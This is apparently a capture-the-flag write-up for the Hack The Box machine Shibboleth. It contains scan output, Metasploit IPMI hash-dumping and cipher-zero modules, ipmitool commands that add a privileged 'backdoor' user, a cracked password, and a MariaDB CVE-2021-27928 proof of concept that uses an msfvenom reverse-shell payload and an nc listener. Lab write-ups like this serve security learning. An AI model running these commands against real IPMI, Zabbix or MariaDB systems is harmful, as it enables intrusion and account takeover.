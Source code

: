 # Shibboleth

![Shibboleth.png](Shibboleth/Shibboleth.png)

### 11/11/2021

Default nmap scripts and port scan:

```python
bracketz:~/Desktop/shibboleth $ nmap -sC -sV -T4 10.10.11.124 -o default-scan
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-13 22:46 -03
Nmap scan report for 10.10.11.124
Host is up (0.41s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.31 seconds
```

The entire port scan reported nothing:

![Untitled](Shibboleth/Untitled.png)

Default directories:

```python
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shibboleth.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/13 22:59:35 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/] 
/server-status        (Status: 403) [Size: 279]
```

Assets directory

![Untitled](Shibboleth/Untitled%201.png)

Message in the forms directory:

![Untitled](Shibboleth/Untitled%202.png)

Attempt to run the PHP, but at first sight it doesn't show nothing. 

![Untitled](Shibboleth/Untitled%203.png)

Subdomains scan, found two subdomains. 

![Untitled](Shibboleth/Untitled%204.png)

Let's start fuzzing the monittor.shibboleth.htb directory, to discover a lot of files and try find something useful to attack the machine. 

![Untitled](Shibboleth/Untitled%205.png)

In the first contact with the subdomain, we can known that is a Zabbix, Zabbix is a network monitor software, metrics around network utilization. The majority of directories are blocked with 403 (Forbidden).

![Untitled](Shibboleth/Untitled%206.png)

Zabbix can have a IPMI implementation, we can try dump hashes, it retrieve HMAC-SHA1 password hashes of default usernames.

By wikipedia: Is a set of computer interface specifications for an autonomous computer subsystem that provides management and monitoring capabilities independently of the host system's CPU, firmware BIOS and operating system.  Hardware monitoring

![Untitled](Shibboleth/Untitled%207.png)

In UDP scan it returns a IPMI open port:

![Untitled](Shibboleth/Untitled%208.png)

[https://book.hacktricks.xyz/pentesting/623-udp-ipmi](https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

Enumeration

```python
nmap -n -p 623 ip
nmap -n-sU -p 623
or metasploit auxiliary/scanner/ipmi/ipmi_version
```

We can try retrieve hash via Remote Password Hash retrieval 

You ask the server for the hashes MD5 and SHA1

```python
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

Working with IPMI:

[http://www.staroceans.org/e-book/IPMI-hack.htm](http://www.staroceans.org/e-book/IPMI-hack.htm)

Identifying IPMI Auth.

![Untitled](Shibboleth/Untitled%209.png)

We can try IPMI cipher zero.

```python
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

This machine accepts IPMI cipher zero:

![Untitled](Shibboleth/Untitled%2010.png)

```python
sudo apt-get install ipmitool
```

And also has a account creation with the commands:

```python
$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set name 2 backdoor

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set password 2 password

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user priv 2 4

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user enable 2

 

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
```

### IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval

The BMC will tell you the password hash for any valid user account you request.

The password is broken using bruteforce attack

Dumping administrator hash and saving in a out file:

![Untitled](Shibboleth/Untitled%2011.png)

Crack step:

```python
john ./out.john --wordlist=[]
```

Hashcracked

![Untitled](Shibboleth/Untitled%2012.png)

The crack password is : ilovepumkinpie1

Login with success

![Untitled](Shibboleth/Untitled%2013.png)

On the zabbix we can look at softwares installed:

![Untitled](Shibboleth/Untitled%2014.png)

Go to the discovery:

![Untitled](Shibboleth/Untitled%2015.png)

Zabbix rules creation

![Untitled](Shibboleth/Untitled%2016.png)

Key to run commands: Execute a system command and get the reverse shell in your system.

![Untitled](Shibboleth/Untitled%2017.png)

![Untitled](Shibboleth/Untitled%2018.png)

Analysing users:

![Untitled](Shibboleth/Untitled%2019.png)

Database password:

zabbix_server.conf-124-DBPassword=bloooarskybluh

Mariadb version

![Untitled](Shibboleth/Untitled%2020.png)

[https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html)

Create a elf and execute this with mariadb

```python
# CVE : CVE-2021-27928

# Proof of Concept:

# Create the reverse shell payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so

# Start a listener
nc -lvp <port>

# Copy the payload to the target machine (In this example, SCP/SSH is used)
scp CVE-2021-27928.so <user>@<ip>:/tmp/CVE-2021-27928.so

# Execute the payload
mysql -u <user> -p -h <ip> -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
```

Creating the elf:

![Untitled](Shibboleth/Untitled%2021.png)

Getting the file:

![Untitled](Shibboleth/Untitled%2022.png)

Even with error the reverse was executed:

![Untitled](Shibboleth/Untitled%2023.png)

Concluded machine.